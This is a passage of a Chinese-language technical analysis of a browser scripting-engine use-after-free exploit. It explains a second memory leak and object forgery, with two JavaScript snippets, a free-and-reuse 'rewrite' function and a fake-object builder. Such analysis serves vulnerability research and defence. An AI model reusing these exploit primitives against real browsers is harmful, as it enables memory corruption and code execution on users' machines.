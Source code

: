 

## 进一步信息泄露

泄露第4个属性的Property指针后，利用代码紧接着用类似的方法泄露该属性的值，此时需要读取泄露的Property指针首部对应的VARIANT，方法是重新设计第一个属性的名称，并用其进行内存布局，随后再次借助错位来进行读取，如下：

[![](https://p4.ssl.qhimg.com/dm/1024_455_/t01375af5e7b71a4974.png)](https://p4.ssl.qhimg.com/dm/1024_455_/t01375af5e7b71a4974.png)

上图中青色高亮的是第二轮UAF后，某个被重用的0x970内存块中的第一个Property，黄色和灰色高亮的是依次排列的、用来布局的VARIANT，每个VARIANT的Type为0x80，为间接引用，需要解一次指针。

[![](https://p3.ssl.qhimg.com/dm/1024_348_/t01dd5d73cd047a6776.png)](https://p3.ssl.qhimg.com/dm/1024_348_/t01dd5d73cd047a6776.png)

从上图可以看到，解一次指针后，读取的VARIANT即为整型，里面存储了所需的leak_offset值，这里为1。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/dm/1024_189_/t01b1639486953bf8fe.png)

从上图可以看到，第一轮UAF时伪造的VARIANT还在，07c72ee0即为第一次信息泄露得到的指针。

有了leak_offset后，就可以对overlay_backup[leak_offset]存储的单个对象进行释放和重用，利用代码在此基础上封装了一个rewrite函数，rewrite函数只对overlay_backup[leak_offset]所代表的对象进行UAF来重用内存：

```
function rewrite(v, i)`{`
    CollectGarbage();
    overlay_backup[leak_offset] = null;
    CollectGarbage();
    overlay_backup[leak_offset] = new Object();
    overlay_backup[leak_offset][variants] = 1;
    overlay_backup[leak_offset][padding] = 1;
    overlay_backup[leak_offset][leak] = 1;
    overlay_backup[leak_offset][v] = i;
`}`
```



## 任意对象伪造

利用代码接着借助rewrite函数，将第一次泄露指针的那块0x970大小内存重新进行内存布局。这次对重占位对象的第4个属性的name进行了改写，使其变为一个VARIANT。并且借助前面的思路，将leak_lower+0x40这个地址构造为Type为0x80的VARIANT，通过第一个属性的name进行大量内存布局，接着利用错位读取第4个Property的name处存储的VARIANT，保存到fakeobj_var：

```
function get_fakeobj() `{`
    rewrite(make_variant(3, 1234));
    reset();
    set_variants(0x80, leak_lower + 64);
    sort[depth].sort(initial_exploit);
for(i = 0; i &lt; total.length; i++) `{`
if(typeof total[i] === "number") `{`
if(total[i] + "" == 1234) `{`
                fakeobj_var = total[i];
break;
            `}`
        `}`
    `}`
`}`
```
